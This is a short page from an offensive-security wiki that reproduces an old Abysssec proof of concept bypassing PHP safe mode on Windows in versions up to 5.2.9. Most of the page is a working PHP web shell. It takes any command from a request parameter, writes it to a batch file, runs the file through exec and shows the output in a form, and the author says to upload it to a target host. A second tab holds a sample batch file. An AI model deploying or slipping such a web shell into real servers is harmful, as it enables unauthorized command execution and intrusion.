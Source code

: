 # PHP &lt;= 5.2.9 on windows
{{#include /banners/hacktricks-training.md}}


{{#include ../../../../banners/hacktricks-training.md}}


From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

{{#tabs}}
{{#tab name="exploit.php"}}

```php
<?php
//cmd.php
/*
	Abysssec Inc Public Advisory

	Here is another safemod bypass vulnerability exist in php <= 5.2.9 on windows .
	the problem comes from OS behavior - implement  and interfacing between php
	and operation systems directory structure . the problem is php won't tell difference
	between directory browsing in linux and windows this can lead attacker to ability
	execute his / her commands on targert machie even in SafeMod On  (php.ini setting) .
	=============================================================================
	in linux when you want open a directory for example php directory you need
	to go to /usr/bin/php and you can't use \usr\bin\php . but windows won't tell
	diffence between slash and back slash it means there is no didffrence  between
	c:\php and c:/php , and this is not vulnerability but itself but  because of this  simple
	php implement "\" character can escape safemode using  function like excec .
	here is a PoC for discussed vulnerability . just upload files on your target host and execute
	your commands .
	==============================================================================
	note : this vulnerabities is just for educational purpose and author will be not be responsible
	for any damage using this vulnerabilty.
	==============================================================================
	for more information visit Abysssec.com
	feel free to contact me at admin [at] abysssec.com
*/
	$cmd = $_REQUEST['cmd'];
	if ($cmd){
	$batch = fopen ("cmd.bat","w");
	fwrite($batch,"$cmd>abysssec.txt"."\r\n");
	fwrite($batch,"exit");
	fclose($batch);
	exec("\start cmd.bat");
	echo "<center>";
	echo "<h1>Abysssec.com PHP <= 5.2.9 SafeMod Bypasser</h1>";
	echo "<textarea rows=20 cols=60>";
	require("abysssec.txt");
	echo "</textarea>";
	echo "</center>";
	}
?>

<html>
<body bgcolor=#000000 and text=#DO0000>
<center>
<form method=post>
<input type=text name=cmd >
<input type=submit value=bypass>
</form>
</center>
</body>
</html>
```

{{#endtab}}

{{#tab name="cmd.bat"}}

```
dir > abyss.txt
exit
```

{{#endtab}}
{{#endtabs}}

{{#include ../../../../banners/hacktricks-training.md}}
